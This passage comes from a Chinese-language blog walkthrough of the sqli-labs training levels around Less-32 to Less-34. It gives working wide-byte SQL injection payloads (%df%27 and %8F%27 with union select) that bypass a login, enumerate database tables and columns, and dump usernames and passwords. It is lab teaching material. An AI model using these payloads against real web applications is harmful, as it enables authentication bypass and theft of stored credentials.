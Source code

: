 
字段

```cobol
-1%8F%27%20union%20select%201,group_concat(column_name),2%20from%20information_schema.columns%20where%20table_schema=0x7365637572697479%20and%20table_name=0x7573657273--%20+
```

值

```cobol
-1%8F%27%20union%20select%201,group_concat(id,username,password),2%20from%20users--%20+
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/74f2dc1fbefc1ca764daed5e674757c5.png" alt="" style="max-height:331px; box-sizing:content-box;" />


## Less-33

一样的' 闭合宽字节注入

## Less-34  POST类型的宽字节注入

变回了POST类型

需要先登入进去再注入

所以我们看看万能密码

这个题目最好通过bp来进行注入 防止二次编码

```cobol
uname=-1%df%27+ or 1--+%2B&passwd=1&submit=Submit
```

登入成功



<img src="https://i-blog.csdnimg.cn/blog_migrate/dadaf8a3a27c4438b0ded2c15bd68efb.png" alt="" style="max-height:96px; box-sizing:content-box;" />


```cobol
uname=-1%df%27+ union select 1,2--+%2B&passwd=1&submit=Submit
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f348727bdbe81d292862cef972070c79.png" alt="" style="max-height:175px; box-sizing:content-box;" />


那就可以

直接开始注入了

```cobol
uname=-1%df%27+ union select 1,database()--+%2B&passwd=1&submit=Submit
 
uname=-1%df%27+ union select 1,group_concat(table_name)from information_Schema.tables where table_schema=database()--+%2B&passwd=1&submit=Submit
 
 
uname=-1%df%27+ union select 1,group_concat(column_name)from information_Schema.columns where table_schema=database()and table_name=0x7573657273--+%2B&passwd=1&submit=Submit
 
 
uname=-1%df%27+ union select 1,group_concat(id,username,password)from  users--+%2B&passwd=1&submit=Submit
```
